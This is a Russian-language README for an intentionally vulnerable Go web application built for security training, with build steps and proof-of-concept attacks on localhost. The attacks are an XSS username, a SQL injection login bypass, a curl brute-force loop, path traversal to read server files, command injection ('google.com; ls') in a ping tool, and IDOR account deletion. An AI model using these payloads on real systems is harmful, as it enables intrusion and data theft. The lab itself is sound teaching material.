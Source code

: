 ## 📃 Инструкция по сборке и запуску приложения

### Требования

Для успешной сборки этого приложения вам потребуется:

- Go (версия 1.18 и выше)
- gcc (установленный и доступный в системе, необходим для sqlite3)

### Сборка и запуск

Для сборки приложения выполните следующие команды:

```bash
git clone https://github.com/Stepashka20/vuln-app
cd vuln-app
go build -o vuln-app
```

Перед запуском скопируйте и заполните `.env`:
```bash
cp .env.example .env
```

Для запуска приложения выполните следующую команду:

```bash
./vuln-app
```

После этого приложение будет доступно по адресу http://localhost:8080

## 👨🏻‍💻 Proof of Concept

### 1. XSS
1. Зарегестрируйтесь с ником `<script>alert(1)</script>`:
2. После этого в профиле появляется алерт с цифрой 1.

### 2. SQLI
1. Зарегестрируйте юзера с ником 'admin': 
```bash
curl 'http://localhost:8080/register' --data-raw 'username=admin&password=supersecurepassword'
```
2. Допустим мы знаем что админ есть в системе. Тогда мы можем войти через его аккаунт:
```bash
1. Логин: a' UNION SELECT 'admin','$2y$04$QMuPN3FQ4EtmNAx.mPGY5e3C9UIibGaX/U.uvknhOLadNwtEA.iH6' --
2. Пароль: 1234
```
3. Вход от админа успешен

### 3. Brute force
1. Запустите испровизированный брут, который будет перебирать пароль: 
```bash
seq 50 | xargs -P50 -I{} curl -s -o /dev/null -w "%{http_code}\n" 'http://localhost:8080/login' --data-raw 'username=admin&password={}'
```
2. Как видно, сервер не ограничивает нас в количестве запросов, поэтому мы можем перебрать пароль бесконечно

### 4. Path Traversal
1. В профиле пользователя загрузите любой файл в секции загрузки "любимого файла"
2. В профиле появится кнопка для скачивания файла вида: 
```bash
http://localhost:8080/files?name=e5fedb3b-9717-44b6-a68b-a2bb042f4409.png
```
3. После этого мы можем скачать любой файл с сервера, заменив имя файла в ссылке:
```bash
curl http://localhost:8080/files?name=../main.go
```

### 5. OS command injection
1. Перейдите в утилиту Ping:
```bash
http://localhost:8080/ping
```
2. введите в поле для ввода для сайта:
```bash
google.com; ls
```
3. После этого вы увидите список файлов в директории проекта

### 6. IDOR
1. Зарегестрируйте двух юзеров:
```bash
curl 'http://localhost:8080/register' --data-raw 'username=user1&password=supersecurepassword'
curl 'http://localhost:8080/register' --data-raw 'username=user2&password=supersecurepassword'
```
2. Войдите в систему под первым юзером:
```bash
curl 'http://localhost:8080/login' --data-raw 'username=user1&password=supersecurepassword'
```
3. В профиле будет кнопка для удаления своего аккаунта, которая делает запрос на:
```bash
http://localhost:8080/delete?user=user1
```
4. После этого мы можем удалить любого юзера, заменив имя в запросе:
```bash
http://localhost:8080/delete?user=user2
```